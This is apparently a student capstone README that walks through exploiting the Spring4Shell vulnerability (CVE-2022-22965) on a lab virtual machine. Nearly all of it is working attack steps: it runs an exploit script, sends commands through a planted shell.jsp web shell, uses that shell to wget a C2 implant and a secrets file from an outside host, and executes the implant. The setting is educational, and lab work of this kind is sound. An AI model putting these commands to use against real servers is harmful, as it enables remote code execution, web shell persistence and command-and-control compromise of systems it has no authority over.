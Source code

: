# 590J Captsone Project
Group Counting Sheep:

Brendan Henrich
Andrew Maldonado
Basundhara Chakrabarty

**Spring4shell Implant Delivery**

CVE-2022-22965

## Proof of Concept Setup
2x Virtual Machines [Host OS Windows 10] running Ubuntu 20.04.4 LTS
Local network DCHP 10.0.2.0/24

Attacker IP = 10.0.2.15

Target IP = 10.0.2.4

Target is running vulnerable Spring server !

**Instructions:**
```
Start here: https://medium.com/geekculture/spring4shell-exploit-walkthrough-9843c0244b68
On Target: [run the vulnerable spring server]
cd spring4shell
sudo docker run -p 80:8080 spring4shell
```
On Attacker: [launch the attack]:
```
cd spring4shell
python3 exploit.py --url 'http://10.0.2.4/helloworld/greeting'
```

**WEB SHELL COMMANDS:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=whoami
lynx -dump http://10.0.2.4/shell.jsp?cmd=echo%20spring4shell
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls%20-l%20/
```

**LOAD the implant:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/XGHo3dJDb31/c2_implant
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/nScoTrBugqc/secrets.json
```

** RUN the implant:**
lynx -dump http://10.0.2.4/shell.jsp?cmd=%2e%2fc2_implant
